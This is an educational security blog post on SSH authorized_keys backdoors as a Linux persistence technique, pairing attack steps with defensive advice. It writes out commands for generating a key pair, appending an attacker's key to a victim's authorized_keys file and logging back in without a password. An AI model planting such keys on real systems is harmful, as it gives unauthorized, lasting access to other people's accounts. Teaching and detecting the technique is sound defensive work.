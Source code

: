 ```yaml
---
title : "Linux Backdoors Part-I"
date : 2025-08-17
layout : post
categories : [BACKDOOR]
tags : [SSH, BACKDOOR, PERSISTENCE, LINUX]
author : jana
---
```


# SSH Backdoors: Persistence Through Authorized Keys

Hello security pros! 👋  

Welcome back to another dive into **Linux persistence mechanisms attackers love**.  
Today, we’re looking at one of the most common — yet often overlooked — techniques: the **SSH authorized_keys backdoor**.  

It’s clean, reliable, and doesn’t rely on exploiting binaries or injecting shell tricks. Instead, it abuses a feature meant for convenience: **public key authentication**.  

---

## 🔍 What Is an SSH Backdoor?

An **SSH backdoor** leverages the SSH key-based authentication system to maintain persistence on a compromised Linux host.  

Instead of needing a password, the attacker adds their own **public key** into the victim’s `~/.ssh/authorized_keys` file.  

Result? The attacker can log back in anytime using their **private key**, bypassing password authentication and blending in as a “legit” user.  

---

## 🧠 How Authorized Keys Work  

- Users store trusted public keys in `~/.ssh/authorized_keys`  
- If a connecting client proves ownership of the matching private key, login is granted  
- No password is required  
- This is a normal feature — but if abused, it becomes a stealthy persistence mechanism  

---

## 🧰 The Attack: Step-by-Step  

### ✅ Step 1: Initial Access  
The attacker compromises the system (via exploit, weak creds, phishing, etc.).  

### ✅ Step 2: Key Setup  
On their own machine, the attacker generates a key pair:  

```bash
ssh-keygen -t rsa -b 4096
```

This produces:  
- Private key: `~/.ssh/id_rsa`  
- Public key: `~/.ssh/id_rsa.pub`  

### ✅ Step 3: Plant the Backdoor  
The attacker appends their public key to the victim’s authorized_keys file:  

```bash
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC..." >> /home/alice/.ssh/authorized_keys
```

Now Alice’s account trusts the attacker’s key.  

### ✅ Step 4: Silent Re-Entry  
From then on, the attacker can connect like so:  

```bash
ssh -i ~/.ssh/id_rsa alice@victim_ip
```

No password prompt. Instant persistence.  

---

## 🔁 Attack Flow Recap  

| Step              | Action                                           |
|-------------------|-------------------------------------------------|
| 🎯 Initial Access | Attacker compromises system                     |
| 🔑 Key Pair Gen   | Attacker creates SSH key pair                   |
| 📝 Key Injection  | Public key added to victim’s authorized_keys    |
| 🚪 Backdoor Entry | Attacker logs in anytime using private key      |

---

## 🕵️ Why It’s Sneaky  

✅ Uses a legitimate SSH feature  
✅ Doesn’t require root (user-level persistence works fine)  
✅ Blends with real admin/dev usage  
✅ Survives reboots and logouts  
✅ Password changes don’t matter — key still works  

This makes it a favorite among attackers and red teamers alike.  

---

## 🧪 Lab Example (Safe Demo)  

**On attacker machine:**  
```bash
ssh-keygen -t rsa -b 2048
```

**On target machine:**  
```bash
mkdir -p ~/.ssh
chmod 700 ~/.ssh
echo "ssh-rsa AAAAB3Nza..." >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```

**Test the backdoor:**  
```bash
ssh -i ~/.ssh/id_rsa user@victim_ip
```

➡️ Instant login without password.  

---

## ⚠️ Limitations  

- ❌ Limited to SSH access (no shell execution if SSH is disabled)  
- ❌ Easy to spot if defenders audit authorized_keys  
- ❌ Requires attacker to manage their private key securely  
- ❌ Can be blocked by central key management or strict configs  

---

## 🛡️ Defense Strategies  

- **Audit SSH Keys:**  
  Regularly inspect `~/.ssh/authorized_keys` for unexpected entries  
  Enforce centralized key management  

- **Restrict Access:**  
  Disable password-less logins where possible  
  Enforce MFA for SSH access  

- **Monitor SSH Logins:**  
  Track unusual logins or new SSH key usage  
  Alert on logins from strange IPs or odd times  

- **File Integrity Monitoring:**  
  Use AIDE, Tripwire, or auditd to detect changes in `~/.ssh/authorized_keys`  

---

## 🧠 Final Thoughts  

SSH backdoors are one of the **cleanest persistence methods** attackers use. They rely on nothing but native functionality, making them stealthy and reliable.  

- For red teamers: it’s a straightforward persistence trick.  
- For blue teamers: it’s a reminder that **authorized_keys is a high-value file**.  
- For learners: it’s a perfect example of how normal features can be weaponized.  

---

⚠️ **Disclaimer:** This post is for **educational purposes only**. Do not test these techniques on systems you do not own or without explicit permission.  

Stay sharp, monitor your keys, and never assume SSH is “just working fine.” 😉  
